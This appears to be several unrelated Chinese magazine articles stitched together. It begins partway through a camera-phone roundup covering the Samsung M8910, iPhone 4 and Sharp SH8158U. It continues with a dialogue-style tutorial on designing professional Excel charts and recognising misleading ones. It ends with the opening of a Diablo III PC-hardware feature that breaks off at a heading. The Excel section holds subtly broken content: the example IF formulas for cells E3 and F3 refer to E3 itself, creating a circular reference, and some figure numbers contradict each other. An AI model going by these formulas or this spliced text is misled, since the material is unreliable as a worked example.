三星M8910采用了直板触屏设计，机身尺寸为108×53×13.8mm，重约119g，3.1英寸AMOLED的屏幕分辨率为480×800像素，显示效果非常细腻，同时支持触控操作。机身上方前置一枚10万像素副摄像头，方便与亲朋家人沟通交流，非常人性化。

背部的精心设计与精良做工，显示出非凡的设计理念。自动镜头盖内嵌有一枚高达1200万像素摄像头、大口径镜头、氙气闪光灯、对焦辅助灯，最大支持ISO1600感光度、7级感光度调配，最高3000×4000像素照片，图像明亮而清晰，支持肖像、夜间拍摄、运动、室内、海滩、日落、黎明等14种场景模式。手持处纹路设计可有效防滑，防止单手持机抓拍易脱手的情况发生。

目前市面上摄像头达到1200万像素的手机屈指可数，这款三星M8910就是其中之一。虽然该机未搭载任何智能系统，但一般常用的软件该机还是支持的，蓝牙和WIFI也都支持。

### 公认强悍的照相手机——iPhone 4
诺基亚N8过后，笔者继续为大家介绍的是目前手机市场人气高到离谱的一款智能机型—苹果iPhone 4。对于它的用户体验以及整机性能想必不用笔者多言，但它作为世界上第一款采用背照式CMOS感光元件的手机来说，其拍照效果绝对值得称赞。虽然像素数仅为500万像素，但实际效果其毫不逊色于810万像素以及1200万像素的拍照手机，这也正如上文所说的，像素数并不决定成像质量。由于背照式CMOS相比普通CMOS来说设计更为先进，所以感光能力也更强，这也让它减少了噪点，从而获得画质更好的图像。

从之介绍的这两款机型相信大家都可以看出，目前定义一款拍照手机早已不是简单的以像素数为唯一准则，只有在传感器材质、尺寸、设计理念等等这些方面有着实际提升的机型才可以被称之为“拍照手机”，所以大家在选购过程中，一定要综合考量一款机型在你心目中是不是有资格称之为“拍照手机”。

## CCD摄像头
CCD摄像头是目前技术十分成熟的一种摄像头，其被广泛应用在单反和卡片相机中。这种CCD摄像头十分的耗电，对于本来电量就不多的手机来说足实是一个考验，但其成像质量十分的出色，目前手机上成像能力最出色的还是CCD摄像头，CMOS摄像头在手机领域的发展还不成熟。

### 960万CCD：夏普SH8158U
夏普SH8158U是一款刚上市不久的新机。该机是一部Android智能手机，并且有着1GHz处理器，但重点的并不是这些，而是该机的裸眼3D和960万像素CCD摄像头。玩游戏、看视频均可实现裸眼3D效果，而那颗960万像素CCD摄像头的成像能力更是十分突出，受到了不少拍照达人们的喜爱。

### 编辑点评：
夏普SH8158U采用的是常见的直板触控造型，机身三围比较大，机身采用了平滑的钢琴烤漆工艺处理，握感还是比较舒服的。其装备了一块3.8英寸的电容触控屏，分辨率达到了480x800像素，保证了画面的精细，系统上则是搭载了Android OS。

# 学做专业EXCEL图表

工作中，不管是做销售业绩报表，还是进行年度工作总结，抑或制作研究报告，我们都会用到Excel图表。一张漂亮的Excel图表往往会为报告增色不少。

你可能见过麦肯锡、罗兰贝格等咨询公司的图表，那些图表一眼看上去就带着专业的范儿，光摆表格就足够让人震撼的了。不过，你知道这些图表为什么专业吗？你是否也想做出一份这样专业的Excel图表？

小白刚刚入职一家咨询公司，做咨询这行当，经常会做各种各样的报表，小白上学时专门学习过Excel，各种各样的图表倒也手到擒来，只是每次交给领导看，领导总是批评小白的图表做得不够专业。看着那些优秀的案例文本，小白也郁闷得要命。为什么人家做的图表一眼就看上去特别专业，而自己的图表总是感觉很土呢？幸好，公司为每位新人都指定了一位老员工作为师傅，小白决定这段时间一定要跟师傅Mr.林好好学学如何做出专业的Excel图表。

## 别让图表犯错

Mr.林：我先给你看一些不完美不专业的图表，你来找找这些图表哪里不专业，这样你就能更清楚一幅专业的图表是如何生成的。

小白表示赞同：错误和失败更能让人长记性！呵呵。

Mr.林：如下图所示，这张图作者想要表达什么信息？

小白皱了皱眉：这显然是一幅残缺不全的图表，一没标题、二没图例，我怎么知道它要表达什么信息？

Mr.林：对，一张图必须包含完整的元素，才能让观众一目了然。可是新手们往往一不小心就犯了这样的错误。怎样才算包含完整的元素呢？我们通过完善图1来解决答案。

小白忙插嘴一句：嗯，现在我一看就知道了，这张图表是介绍产品销量的！

Mr.林：对！然后加上图例，让读者知道图中深绿色跟浅绿色所代表的含义。浅绿色代表品牌A的某产品销量情况，深绿色代表品牌B的某产品销量情况。再加上纵坐标的数值的单位。

Mr.林：小白，你再观察一下图形的数据值，发现有什么异常没有？

小白一边仔细观摩，一边思考：第三季度怎么一下子降了那么多呢，而且深绿色的部分还是处于正常上升趋势的。问题出在浅绿色的柱子里了。

Mr.林：对，第三季度A产品的包装出现问题，这是产生这样的数据背后重要的原因，是必须加在图表上的。在图表里，我们称其为脚注。最后，还有一个元素——资料来源，这个不是一定得有，但是专业图表最好添加这个内容，这样能增加数据的可信度。修改后的图表如图2所示，现在是不是觉得很完整了呢？是不是马上了解到图表所要表达的主题了？

小白：现在的图表看起来专业多了。

Mr.林：标题、图例、单位、脚注、资料来源这些图表元素就好比是图表的五脏六腑，有了它们图表才有生命与意义。所以，做专业的图表，首先得让图表‘五脏俱全’！

## 让图表‘五脏俱全’

## 要注意的条条框框

Mr.林：首先，避免生出无意义的图表。有些搞数据的哥们想得最多的不是女朋友，而是作图！除了作图还是作图，所以难免会有这样的毛病：一看见表格就不顺眼，非要整出个图出来。有时候表格比图更有效地传递信息，这时候就没必要画蛇添足绘制图表了。图表贵精不贵多，决定作不作图表的唯一标准是——能否帮助你有效表达信息。

第二点，不要把图表摔破。不要在一张图表里塞太多信息，很多新手容易犯这个错误。

小白提出疑问了：哇塞，我果然还是个菜鸟级别，两点就全中招了，用一张图表囊括多个图表的信息，一个能抵俩，这样不好吗？

Mr.林：不行，最好一张图表反映一个观点。这样子才能突出重点，让你的读者迅速捕捉到核心思想。

有人做过这样的试验：第1种解释一张图的N条信息；第2种作N张图，每张图反映一条信息，然后一张张地给观众解释。两种方法的演示速度是一样的，但是第2种方法观众感觉条理更清晰，印象更深刻。所以，最好一个图表阐明一个主题。

第三点，只选对的，不选复杂的。

有人沉迷于设计各种各样的，所谓‘高级’的图表，仿佛不如此无以显示自己技艺的精湛。不如如此无以让别人顶礼膜拜。但是违背了专业精神的基本原则——简约。

第四点，一句话标题。

Mr.林：小白，你读一读这几个图表标题：公司销售情况发展趋势、各地区的产量、薪酬与利润之间的关系……这些是不是你见过的最滥的图表标题？你明白它要讲什么吗？看了这些千篇一律的标题，你还有兴趣继续看里面的内容吗？要是你订的报纸里新闻全是这种标题，你是不是想得牙齿痒痒，想破口大骂？

小白：确实，要是这样的话，就根本没有想往下看的欲望了。

Mr.林：其实这些标题就两个缺点：①没有切中图的大意；②没有吸引力。我们的读者每天都要看几百份图表，要是每一份图表都要看完图才知道要表达什么，不是他自己疯掉就是先让你疯掉。所以，作图时首先要把想指出的内容要点融入到标题中去。

上面的这些标题修改起来很简单，只有一个原则：就是将短语变为句子。现在上面的三个标题都是短语吧？看看我怎样把它变成句子：①公司销售额翻了一番；②C区产量居第四；③薪酬与利润之间没有关系。小白，感觉一下前后有什么的区别？

小白：感觉明了很多，不需要看图，我也能很快领悟到这张图的要点。

Mr.林：另外，标题有吸引力会给图表加分，我们可以多向标题党学习。

Mr.林停顿了一会儿，接着说：刚才介绍的几点是对所有图表而言的。对于Excel里的图表原型——饼……图、柱形图、条形图、折线图还有针对性的注意事项，下面我一个一个给你总结出来。

# 饼图

Mr.林：饼图有六个注意事项。

1.  对于饼图要按照时钟表盘的刻度，让数据从12点钟的位置开始排列，最重要的成分紧靠12点钟的位置。
小白不解：为什么要从12点钟位置开始排列呢？
Mr.林：因为人的眼睛都习惯从左至右、从上到下的顺序观察事物。要使读者首先抓住最重要的信息，就要把它们放在最显眼的位置，也就是12点钟的位置。

2.  数据项不要太多，保持在5项以内。
小白插了一句：为什么不能超过5项呢？
Mr.林：你若看过“定位理论”就理解了，人脑比较容易记住前5位，数据太多会分散注意。
小白：哦，我想起来了，例如做调查问卷时，一般规定的最多评分级设置是“1分，3分，5分，7分，9分”，在这几个数值中进行打分，再多的话大家就会懵了，也是这个道理吧！

3.  饼图不要使用图例。



○ 修改前的饼图
小白：不用图例，那别人怎么知道哪一部分代表什么数据呢？
Mr.林：饼图使用图例的方式阅读起来很不方便，可将标签直接标在扇区内或旁边。

4.  尽量不使用标签连线，如果要用的话则切忌凌乱。

5.  尽量不使用3D效果，如果要用的话厚度要尽量薄一些。

6.  当扇区使颜色填充时，推荐使用白色的边框线，具有较好的切割感。



○ 修改后的饼图

# 柱形图

Mr.林：柱形图在日常工作中也是经常用到的，比如在数据对比分析时就会用到。现在我们再来看看制作柱形图需要注意哪些地方。

1.  同一数据序列使用相同的颜色。

2.  不要使用倾斜的标签，别让读者歪着脑袋看。
小白听到第2条，不由得嘿嘿一笑：我作图的时候还真没有想过这么多呢。
Mr.林：当项目名称，也就是横坐标轴的标签文字过长时，可以采用条形图来代替柱形图。



○ 修改前的柱形图



○ 修改后的柱形图

# 条形图

Mr.林：接着下面我们看看条形图，条形图与柱形图的注意事项是类似的。

1.  同一数据序列使用相同的颜色。

2.  尽量让数据从大到小排序，方便阅读。

3.  不要使用倾斜的标签。

4.  最好添加数据标签。



○ 修改前的条形图



○ 修改后的条形图

# 折线图

Mr.林：折线图有下面几点需要注意的地方。

1.  折线选用的线型要相对粗些，最好比网格线、坐标轴等更突出。

2.  线条一般不超过5条，否则像意大利面条，非常杂乱，如果线条太多的话可以分开做图表。

3.  不要使用倾斜的标签。

4.  纵坐标轴一般刻度从0开始。



○ 修改前的折线图



○ 修改后的折线图

# 图表会说谎

Mr.林：小白，你见过图表说谎吗？
小白惊讶地重复了一遍：图表会说谎？
Mr.林娓娓道来：是的，刚刚介绍的条条框框，说的都是新手容易犯的错误。而有时候，具有一定经验的专业人士可以利用自己的技能夸大或掩盖事实，也就是明知故犯。
大多数人面对海量的数字都有一种天生的畏惧感，但是对图表却是另眼相待。特别是那种生动的乃至夸张的图表很容易吸引观众的眼球，所以有些数据分析师正是利用这一点对图表做易容术，就轻轻松松地欺瞒了观众的眼睛。据我所观察到的现象，这种被掩盖或夸张了的图表在很多地方被滥用。
小白：又没有篡改数据，怎么会欺瞒观众呢？
Mr.林：呵呵，给你看看一位网友写的打油诗“一个富翁上千万，邻居都是穷光蛋，平均数字一核算，人人都是富百万”。这是利用平均数掩盖真实情况的最佳说明和解释。数据尚且能够蒙蔽人的眼睛，何况是花样繁多的图表呢？下面我给你一一列举些例子。

# 虚张声势的增长

Mr.林：人们最喜欢研究一条线的发展趋势了，例如股市的发展趋势，CPI的发展趋势，房价的发展趋势，销售额的增长趋势……有些时候有些报刊杂志为了吸引读者故意夸大变化趋势。如图3所示，这是原本的某产品的价格增幅，我们从原始图看到的增长是缓慢的。但是，你再看看图4这张图表，是不是感觉价格在飞速增长？到底哪张图表才是正确的呢？
小白：哈哈，这个你教过我，我来说吧。其实制图者只是调整了纵坐标轴的刻度，本来应该是从0开始的，结果他偷偷地换成从80开始了。原来纵坐标总长度是100，现在变为20了，相当于纵向拉长了5倍。当然得到的图形也大相径庭，读者一不小心就会被表象欺骗了。



○ 图3 正确的趋势图



○ 图4 拉长了的趋势图

Mr.林满意地说：不错。你看我还特意在这两幅图后面加了个小人，这小人是不是也感觉被人扯长了很多呀！

小白：就像是照哈哈镜一样，呵呵。

# 3D效果的伪装

Mr.林：前面在讲图表注意事项时，提到过我们要去掉3D效果的图形。

小白：为什么呢？3D的图表别人都没用过，够炫，还能激起读者的兴趣。

Mr.林：可是，根据“简约”原则，3D效果实在是无关紧要的装饰，反而使图表显得拖沓繁冗。而且，3D效果的图表让人理解起来困难重重，读者可能因为3D角度的关系而无法看清相关坐标上的数据。如果非要用，建议用得薄一些才行，不宜显得太厚。

看看下面两柱形图，一个有3D效果（如图5所示），另一个无3D效果（如图6所示），图5看上去是不是A→B→C→D→E依次递增？再看图6，其实D是高于E的！


# 一维图形的魔眼法

Mr.林：有时候报刊杂志为了增强视觉效果，吸引读者，就将简单的柱状、条形、饼状用图片填充，这样子给人感觉更形象。小白，你看看图8的原型图7，它要传递的信息是今年的粮食产量是去年的两倍。

小白：我咋觉得这今年的米袋跟去年的米袋比起来，哪是大两倍，感觉上大好几倍呢！这又是视觉效果造成的吗？

Mr.林：呵呵，制图者又耍了一个小伎俩，本来应该将米袋图片增高2倍，他却同时也将长宽增大了两倍，所以体积却变成了8倍。理解吗？

小白：似乎有点理解了，难道不能用剪切画代替原图了吗？

Mr.林：呵呵，可以的。那你再看下面两幅奶牛图，同样，图表的信息是2011年的奶牛养殖量是2006年的2倍。图9是采用刚才那个制图者的做法，


将奶牛图的长和宽同时扩大了2倍。其实正确的做法是将其采用图10的形式，这才是正确的视觉效果。小白：这下才感觉对头了！原来图表还可以这样子撒谎的，神不知鬼不觉就把读者给糊弄了。今天我倒是长了见识了，呵呵。


# 浓妆淡抹总相宜——图表美化

# 美化技巧

Mr.林：图表美化有三原则：简约、整洁、对比，现在关键是讲点美化图表的技巧。

# 找出隐形的线

Mr.林：图表有一个很重要的评价标准：要让图表中每一个元素像被无形的线贯穿在一起一样。最好的方法是找一条明确的线，并用它来对齐，从而使元素与元素之间存在着某种视觉纽带。我举一个例子，小白，你看看如图11所示的员工对薪酬现状与期望评分图，分别是员工满意度调查中关于薪酬制度的三道题的评分，你觉得有什么问题？



小白无奈地摇摇头：不知道。

Mr.林引导小白：你看，这里的题目是左对齐的，也就是在左边有一条明确的线。另外，沿着条形图的左边也有一条明确的线（坐标轴）。不过，在题目和条形图之间“留”了一些空白，看我用虚线标记的部分，这部分形状也不规则，很难看，而且由于留下的这部分空白，使得题目和条形图隔开了。调整后的效果，如图12所示，是不是显得整洁很多？

Mr.林：小白，我用这个例子是想告诉你，在描绘图表的每一个元素时，都要特别注意它的位置，应当找出能够与之对齐的元素，尽管这两者之间的地理位置可能很远，但是在图中还是要做到就像是有人在中间牵了一条隐形的线将两者关联起来一样。切记不要一会儿居中一会儿右对齐，在图表上逮着个空白地方就添东西。



# 图表喜欢的数字格式

Mr.林：刚刚我们讲找出隐形的线是为了使图表元素显得井然有序，这里再教你一个小技巧以增加图表的整洁感。当我们添加的数据标签很多，或者显示坐标轴刻度很密集时，图表上就会显示很多数字，排版时稍不注意就会显得非常拥挤和凌乱。此时，我们可以将所有数字格式都调整成Arial字体，数字将会显得“规矩”很多，效果如图13所示。如果图表中有英文，那么同样建议调整为Arial字体。



小白：是喔，这样一对比，宋体的数字真的很丑！呵呵。

# 如何突出对比

Mr.林：介绍完了整洁原则的美化技巧，再介绍对比原则的技巧。如果你要运用对比原则，突出与众不同的元素，就不要缩头缩脚，要大胆地让它变得非比寻常。最方便快捷的方式，就是改变颜色！利用对比色更能增强突出效果。除此之外，还可使用直线、箭头或者是阴影等手法。有时候，我们只是简简单单地添加一条线，就能进行很好的对比。如图14所示，产品的需求量是随着月份而变化的，而产品的每月生产量是由机器固定生产出来的。在图24中我们只是简单地添加了一条表示产量为恒值的直线，就能很清晰地对比出需求量与产量的关系，从而分析产量是否应该做出调整？



采用箭头的方式也有很不错的强调效果。如图15所示，图中描绘的是2005年至2010年某公司销售额的变化情况，这里使用箭头的目的有两个：一是将人们的注意力集中在2008年这个特殊点，由于受金融危机的影响导致销售额出现反常的下降；二是箭头的长度反映出下降的幅度。其实呀，对比的方式有很多，关键在于要动脑筋想，用善于发现的眼睛去挖掘灵感。灵感藏在哪里？动动脑筋，随处即是。但若墨守成规、循规蹈矩，终将与灵感无缘。



如图16所示，它采用的就是简单且很有意思的对比方式。因为我们已经习惯看完整的圆饼，这里故意留出一个缺口，生产意想不到的效果，更能引人注意，而且缺口部分还起到暗示的作用，提醒你应该将整体补全，箭头更进一步提醒你这点。



● 图16利用饼图缺口进行强调

# 图表也好‘色’

## 慎用的颜色

Mr.林：在所有颜色中，有三个颜色在使用的时候要注意，小白，你知道是哪三个吗？
小白：不会是交通灯那三种颜色吧？
Mr.林：没错，正是红色、黄色和绿色这三种颜色，因为它们具有特殊的涵义，红色代表禁止或者危险，黄色代表警告和提醒，绿色代表安全、正常。所以在我们的图表里也要注意按照它们的涵义来使用，而且尽量避免使用红色。

## 懒人的配色模式

小白：那要搭配颜色的话，不是得一个个去调试？多麻烦呀！
Mr.林：呵呵，微软公司当然知道懒人的需求，于是设置了主题颜色可供选择。
小白：哦，怪不得大家做出来的图表颜色都差不多，原来都是采用Excel默认的颜色搭配。不过看上去好土哦，有没有再Fashion一点的颜色模板呀？
Mr.林：呵呵，你说对了！天天看这种默认格式的图表早晚得审美疲劳，甚至不想再看第二眼。Excel里其实还设置了很多主题色，却很少人知道并使用它们。稍微动动手，就能让你的图表赏心悦目，何乐而不为呢？现在我就教你怎么换主题颜色：单击“页面布局”主选项卡→“主题”功能区→“颜色”下拉菜单，就可以看到如图17所示的主题颜色。Excel2010里内置了44套经典颜色+25套来自Office.com的主题颜色，这么多够你用了吧！



● 图17内置主题颜色

除此之外，如果你不满足里面设置的主题颜色，在“内置主题颜色”对话框的最底部还有一个“新建颜色主题”按钮，利用这个功能可以建立自己的颜色主题。我们可以将自己常用的颜色定义为一个主题，作图的时候就可通过颜色面板快速取用，如图18所示。



● 图18新建主题颜色

## “借”用别人的颜色

Mr.林：如果你对自己的色彩搭配不够自信，或者嫌麻烦懒得自己搭配，可以在平常浏览网站或者图片时收集一些效果好的色彩搭配。
小白：颜色也能收集？
Mr.林：颜色也是有标识符的，每一种颜色都对应一种RGB值，就像是每个人都有属于自己的身份证号一样。这里教你使用一款叫ColorPix的绿色小软件来获取图片颜色的RGB值。
使用方法是：运行ColorPix程序，将鼠标定位在图表的某个颜色上，软件就会返回那个颜色的RGB值。按下空格键锁定颜色，用鼠标单击RGB值，就可以将颜色代码复制到剪贴板上。



● 图19商业周刊上经常用到的红灰搭配（彩色图片请参考论坛）

# 不同类型的图表该怎么玩

Excel有各种各样的图表，柱状图、折线图、饼图、条形图、散点图等等，这些不同形式的图表如何才能玩转，本文从制作一个销售图表的案例出发，一步一步讲解制作不同Excel图表的诀窍。

一早上，领导给小白布置了一个小任务：将2010年度公司的销售数据进行整理汇总，并制作成图表，下午的营销会议要使用。虽然在Excel中制作图表，对小白而言并非什么难事，但因为是会议用资料，对小白这个刚入职不久的新人而言，这些图表如果制作的不好，就会搞砸这个会议，这个任务还是显得有些艰巨。
于是小白惶恐的拿着如表20所示的表格，请教Mr.林，这些Excel图表到底该如何制作。以便使大家第一眼看过后愿意认真阅读这些图表，并能从图表中获取到有用的信息。

| 月份 | 销售额(万元) |
|---|---|
| 1月 | 795.63 |
| 2月 | 735.33 |
| 3月 | 769.74 |
| 4月 | 785.52 |
| 5月 | 796.57 |
| 6月 | 727.80 |
| 7月 | 791.47 |
| 8月 | 784.86 |
| 9月 | 765.26 |
| 10月 | 752.30 |
| 11月 | 712.41 |
| 12月 | 736.21 |

## 诉求为王

Mr.林看了这些数据后，并没有给小白一个具体的回答，而是问小白：“你要表达什么？”小白想想说：“图表不就是将数据图示化嘛，直接把销售额秀出来就好了。”Mr.林笑笑告诉小白：“不是所有数据都适合图表，也不是所有的图表存在都有价值。如果这样，直接使用这个表格岂不是更好？”





Mr.林接着选中表1的数据，点击Excel菜单的“柱状图”和“折线图”图标按钮，分别制作了图21和图22的柱形图和折线图，然后问小白这两个图表有何差异。小白看看回答：“这两个图表使用数据相同，但给人的视觉差异却明显不同，图21偏重数值展示，图22侧重数据趋势变化”。Mr.林接到：“对，图表就是要表达数值和趋势，以及差异。这些都和诉求有关，仅仅秀出数据是不够的，你必须有诉求，没有诉求你甚至无法选择合适的图表类型”。

“你的数据中怎么没有包含每月目标值数据？”Mr.林问道。小白回答：“噢，这个倒没有考虑到，这个数据在另外的工作表”。Mr.林笑着说：“营销会议多为业绩检讨，这组数据就是差异使用的比较基准，所以制作图表前必须要确认数据是否完整，且要整理好数据。”

| 月份 | 销售额(万元) | 目标值(万元) | 达标额(万元) | 未达标额(万元) |
|---|---|---|---|---|
| 1月 | 795.63 | 780 | 15.63 | |
| 2月 | 735.33 | 650 | 85.33 | |
| 3月 | 769.74 | 700 | 69.74 | |
| 4月 | 785.52 | 750 | | 44.48 |
| 5月 | 796.57 | 780 | 16.57 | |
| 6月 | 727.80 | 700 | 27.80 | |
| 7月 | 791.47 | 750 | 41.47 | |
| 8月 | 784.86 | 750 | 34.86 | |
| 9月 | 765.26 | 800 | | 34.74 |
| 10月 | 752.30 | 750 | 2.30 | |
| 11月 | 712.41 | 700 | 12.41 | |
| 12月 | 736.21 | 700 | 36.21 | |

接着Mr.林列出了表23未达标数据和达标数据使用到的公式：

```
E3单元格：=IF(D3-E3<0,D3-E3,"")
F3单元格：=IF(D3-E3>=0,D3-E3,"")
```

## 图表选择有讲究

小白接着问道：“在Excel的图表制作选项中，包含了大量图表类型，有柱状、条状、折线、散点、面积、气泡、饼图、环形、雷达、曲面，每个图表类型下还有多个图表子类型，这些不同类型的图表又该如何选择？” Mr.林回答：“其实图表都是为比较而生，所以选择图表的原则是合理突出比较。” 接着Mr.林详细向小白讲解了选择图表的一些技巧：

## 水平比较

一般使用以时间轴为刻度的数据，常用柱形和折线图表，比如表20的数据、图21和图22的案例。表达数值使用柱形图，表达趋势使用折线图。面积图是个特例，其兼具柱形与折线的图表特点，强调数量随时间变化的程度和总值趋势变化，以及显示部分与整体的关系。Mr.林使用表20数据制作的图24图表是面积图示例，不过此类图表使用在大数据量时效果明显，数据量较小时，大面积的涂色使表达效果变得不尽人意。

## 垂直比较

某一时间段的多个同类数据比较，多使用条形图。图25右侧图表是Mr.林使用图25左侧的各代理2010年全年销售金额数据，制作的条形图。

## 构成比较

表达构成关系，一般主要是指占比关系，多采用饼图或环形图，但超过五项内容的比较，则建议根据数据是否为水平或垂直比较，使用百分比堆积柱形条形图，切勿使用两个饼图或具有多个系列的环形图来比较。

| 公司 | 2009年销售额(万元) |
|---|---|
| A公司 | 2009.65 |
| B公司 | 1343.03 |
| C公司 | 1130.19 |
| D公司 | 900.29 |
| E公司 | 889.87 |
| F公司 | 519.00 |
| G公司 | 317.55 |
| H公司 | 258.40 |
| I公司 | 316.66 |
| J公司 | 243.14 |

| 公司 | 2010年销售额(万元) |
|---|---|
| A公司 | 2108.54 |
| B公司 | 1597.38 |
| C公司 | 1277.90 |
| D公司 | 1086.22 |
| E公司 | 958.43 |
| F公司 | 838.95 |
| G公司 | 447.27 |
| H公司 | 319.48 |
| I公司 | 383.37 |
| J公司 | 255.58 |

## 相互关系

分析数据间所存在的交互关系，多用XY散点或气泡图。XY散点为两组数据的交互关系，气泡图则是XY散点图额外加入第3个维度数据后的呈现。Mr.林使用图27的图表说明了2010年全年各代理商的销售投入与销售额间的关系：投入越大，销售额越大，最右侧的气泡图则额外增加了销售占比。

## 多维度比较

雷达图用于表达多个维度的数据比较，一般使用在定性数据中，超过3组数据的图表就不太适合使用。Mr.林使用图28的图表说明了2010年底对主要销售产品的外观、性能、质量、易操作、价格的调查结果及比较，这些类型的数据即不是随日期时间刻度变化的数据，又不是同一时段的多个品种的同类数据，根本不适合放在直角坐标系的任意维度来比较。

## 图表应该更美的

接着Mr.林又向小白详细讲解了图表美化的一些要领。

### 去除垃圾

将图表上和视觉表达无关的多余内容统统去掉，更利于图表的表达。比如数值坐标轴及刻度线，如果使用了数据点标签，则连坐标轴刻度一起去掉。此外，网格线的颜色应该减弱，使之不再影响视觉阅读。减少刻度的个数也是一个非常重要的步骤，一般选择不超过6个，且为5的倍数为佳。绝对不要使用背景色，大面积色块会降低图表表达的效果。

### 玩转色彩

颜色要把握好平衡，主要是要掌握好基色、辅助色、强调色的关系，此外要考虑一般的惯性思维。比如达标一般使用绿色，未达标一般使用红色。配色方案的最佳去处是：http://kuler.adobe.com/#themes/rating?time=30，此处的配色基本为5色居多，直接拿来套用即可。

### 强调重点

图表应该做到重点突出，层次明显。强调的最佳方法是使用颜色，比如将达标和未达标分别使用不同的颜色来表示。

## Diablo III 之怒

### 什么电脑才能跟上《暗黑破坏神》的步伐？

《暗黑破坏神》，一款仅仅传承了2代的游戏，却让无数玩家翘首以盼，为之疯狂。9月初，暴雪正式宣布《暗黑破坏神3》(下文简称《暗黑3》)启动Beta测试，距离这款神作最终发售的日子已经不远了。面对阔别10余年的游戏大作，什么样的电脑或笔记本才能助你再度降服“骷髅王”、“巴尔”等这些熟悉的敌人呢？1996年，当暴雪首度释放出“暗黑破坏神”时，可能连他自己也没想到这款游戏能开创ARPG的新纪元，甚至成为未来MMRPG网络游戏的“开山鼻祖”。15年间，《暗黑》系列一直被模仿，却从未被超越。终于，现在轮到暴雪自己超越自己的时候了。

### 小知识：暗黑系列编年史

你，做好迎接Diablo再度君临的准备了吗？换句话说，你家的电脑足够战胜第三次来袭的恶魔吗？如果你还没有趁手的“装备”，在本篇专题中，笔者就将引导大家挑选足以挑战Diablo的极品装备，在《暗黑3》正式发售前做好充分的迎击准备！

### 你的电脑能玩《暗黑3》吗？

从官方放出的完整列表中可以得知，《暗黑3》对电脑的要求还是相对宽容的，即便是5年以前的配置也能尝试这款游戏。当然，如果你想在最高画质特效全开的环境下体验，那么要求达到GTX260/HD4850或以上级别的显卡了。

### 特邀嘉宾

- 广末：前《魔兽争霸3》职业选手，获得多次全国冠军，现任辽宁电视台GTV游戏竞技频道主持人。
- 刘博文：GTV《星际争霸2》节目组责任编辑，暴雪游戏的死忠Fans，曾参与举办过无数大型游戏赛事。
- 刘振海：GTV游戏竞技频道《星际争霸2》组专业编辑，中国电子竞技元老。

### 听听职业玩家的声音

想知道职业玩家是如何看待《暗黑3》的吗？在他们眼中什么样的电脑才具备挑战Diablo的资格呢？

### 我们怎么看《暗黑3》？

- 刘博文：《暗黑3》沿袭了暗黑一贯的风格和剧情，经过WOW的经验沉淀，《暗黑3》的装备系统应该是远超前作，而类似账号内金币共享功能、WOW拍卖行的增强版(增加现金拍卖功能)、自动配对的任务系统都是非常值得期待的。《暗黑》作为一款A-RPG和WOW这样的MMORPG还是有很大区别的，《暗黑3》整个战网都是开放式的设计，你可以同任何人聊天，组队打怪、交易装备或者是决斗，而在WOW中是分成若干个服务器各自独立成一个社区。
- 刘振海：无尽的跳票，前作巨大的成功，对于渐渐浮出水面的《暗黑3》已经吊足了大家胃口。从不断放出的各种游戏演示视频中，也可看出《暗黑3》绝对是一款值得期待的高品质游戏。并且这种真实比例的人物造型，更华丽的打斗也是我最喜欢的。前作形形色色的套装，装备赌博系统也都得到了延续。全新的人物，全新的拍卖系统居然支持真实货币交易，谁也猜不到暴雪到底会给我们带来什么，这一切的一切都要到游戏发布时才会全面揭晓。但是对于《暗黑3》我只有一个想法：一定要玩！

### 啥配置能玩《暗黑3》？

- 广末：可惜现在还没能真正上手玩过这个游戏。但就基于暴雪近几年的《魔兽世界》和《星际2》这两款游戏来看，能轻松玩转后者的机器跑《暗黑3》应该也不成问题，当然更高的配置肯定能带来更绚丽的游戏效果。
- 刘博文：最近暴雪公布了《暗黑3》的推荐配置，但据我的经验来看，在此配置上再翻个倍才能真正流畅地进行游戏。理论上《暗黑3》的硬件要求要高于《星际2》和《魔兽世界：大地的裂变》，由此推测台式机想在全高清模式下流畅进行游戏(1920×1080，特效中高，实现60fps+)，台式机需要SNB架构的四核酷睿i5处理器与GTX550Ti显卡的组合；而主流笔记本屏幕的分辨率通常为1366×768像素，最好也能达到i5-2410M与 GT550M级别的组合。
- 刘振海：根据前作“奶牛关”的经验，在漫天飞花的技能和绚丽的效果下，不想在大家K怪的时候由于机器卡而拿不到掉了的装备，我会考虑酷睿i7和GTX560TI级别硬件的组合。而内存可能会选安钛克、海盗船等知名品牌的，有条件的话也许会搞个UPS电源，之前玩前作的时候有个朋友怕断电丢装备，就是这么弄的。我的观点还是玩的要稳定、舒服。

### 用什么打《暗黑3》？

- 广末：从RTS游戏开始就特别习惯使用IE3.0这款经典鼠标，2个侧键的位置可帮你实现更便捷的操作。但是现在的RAZER鼠标的高效和多功能性应该也是游戏发烧友的不二之选。键盘的话，如果非常喜欢敲击键盘的声音，那么选择一款机械键盘就是势在必行的事情了。至于耳机的话，在可能的条件下还是使用音响吧，如果为了不打搅他人选择入耳式耳机应该也不错。
- 刘博文：《暗黑3》的高端玩家会设置大量的快捷键，一款手感较好有丰富按键的鼠标是必不可少的，个人推荐带侧键的鼠标。键盘方面我比较推崇机械键盘，可能是平时即时战略游戏接触比较多的习惯，对于有大量键盘操作的游戏，机械键盘是玩家的不二选择，个人推荐使用Cherry MX茶轴和红轴的机械键盘，具体品牌型号可以根据个人喜好和经济实力来决定。
- 刘振海：由于《暗黑3》不是竞技游戏，鼠标方面建议选择使用舒适的人体工程学设计的产品，经典的IE3.0还是我的首选。键盘的话我会选择茶轴的机械键盘，不过要选择有小键盘的。耳机我会选个好点的，暴雪的游戏音乐都很经典，听说雷蛇要出一个叫Tiamat高级游戏耳机，想体验一下。

### 最后说说心里话

- 广末：现在的生活节奏特别紧凑，我也是经常拿着笔记本到处跑。如果是为了避开网吧烟雾缭绕的环境并随时都能玩自己喜爱的游戏的话，选一款玩游戏不会卡的笔记本相当的关键，而Alienware的笔记本完全就是为了游戏打造，选择Alienware的一款高端配置的笔记本，到处玩游戏，岂不乐哉？
- 刘博文：前面我推荐的配置只能玩今年的《暗黑3》，将来暴雪再推资料片后该配置将面临极大压力。因此如果你最近想配新电脑又想玩《暗黑3》，一定要给自己的配置留出一些冗余空间。比如i5-2500K + GTX560Ti+8GB内存的组合基本可以陪你玩到3年后。如果你想买一台可以玩3年以上《暗黑3》的笔记本，Alienware无疑是最佳选择，当然其他有配备GT555M以上显卡的笔记本也可以考虑，只是你要先习惯那发热量。

### 玩转《暗黑3》台式机攒机攻略

